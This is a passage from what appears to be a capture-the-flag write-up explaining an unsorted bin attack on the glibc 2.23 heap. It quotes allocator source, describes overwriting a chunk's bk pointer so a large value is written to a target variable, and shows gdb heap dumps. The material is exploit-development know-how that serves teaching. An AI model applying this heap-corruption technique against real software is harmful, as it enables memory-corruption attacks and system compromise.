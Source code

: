 So we can see that it's `fwd` and `bk` pointer (`bk` being the second) both point to `0x7f2ac79ceb78`, since there is only one thing in the unsorted bin right now. We can see that `0x7f2ac79ceb78` holds the address of the only chunk in the unsorted bin, which is `0x1128000` (the reason why it is `0x1128000` instead of `0x1128010` is because this pointer points to the start of the heap metadata rather than the user defined data).

Now this for this attack, we will be targeting the `bk` pointer at `0x1128018`. The reason for this being that there is code in `malloc/malloc.c` in the libc (this version being `libc-2.23.so`) that will write a pointer to `bk + 0x10`:


```
          /* remove from unsorted list */
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

Here is is setting the forward pointer of the `bk` chunk equal to the value of unsorted_chunks (av) which will be a pointer (`av` is an arena). Since the `bk` pointer points to the start of the heap metadata, the `fwd` pointer will be `0x10` bytes after that. So if we set the `bk` pointer to `magic - 0x10` then had that chunk removed from the unsorted bin, then the value of `magic` would get overwritten with a ptr to the chunk whose `bk` pointer we overwrote. This pointer's integer value should be greater than `0x1306`, and thus we should be able to print the flag.

Tl;dr Unsorted Bin Attack gives us a write of a "large" integer (in this context we don't have too much control over what gets written, only where it gets written).

Let's take a look at the memory as the Unsorted Bin Attack happens. We start off by allocating three chunks, two of size `0xf0` and one `0x30`:

```
gef➤  x/100g 0x1e23000
0x1e23000:  0x0 0x101
0x1e23010:  0x3832373533393531  0x0
0x1e23020:  0x0 0x0
0x1e23030:  0x0 0x0
0x1e23040:  0x0 0x0
0x1e23050:  0x0 0x0
0x1e23060:  0x0 0x0
0x1e23070:  0x0 0x0
0x1e23080:  0x0 0x0
0x1e23090:  0x0 0x0
0x1e230a0:  0x0 0x0
0x1e230b0:  0x0 0x0
0x1e230c0:  0x0 0x0
0x1e230d0:  0x0 0x0
0x1e230e0:  0x0 0x0
0x1e230f0:  0x0 0x0
0x1e23100:  0x0 0x101
0x1e23110:  0x3832313539333537  0x0
0x1e23120:  0x0 0x0
0x1e23130:  0x0 0x0
0x1e23140:  0x0 0x0
0x1e23150:  0x0 0x0
0x1e23160:  0x0 0x0
0x1e23170:  0x0 0x0
0x1e23180:  0x0 0x0
0x1e23190:  0x0 0x0
0x1e231a0:  0x0 0x0
0x1e231b0:  0x0 0x0
0x1e231c0:  0x0 0x0
0x1e231d0:  0x0 0x0
0x1e231e0:  0x0 0x0
0x1e231f0:  0x0 0x0
0x1e23200:  0x0 0x41
0x1e23210:  0x3832373533393530  0x0
0x1e23220:  0x0 0x0
```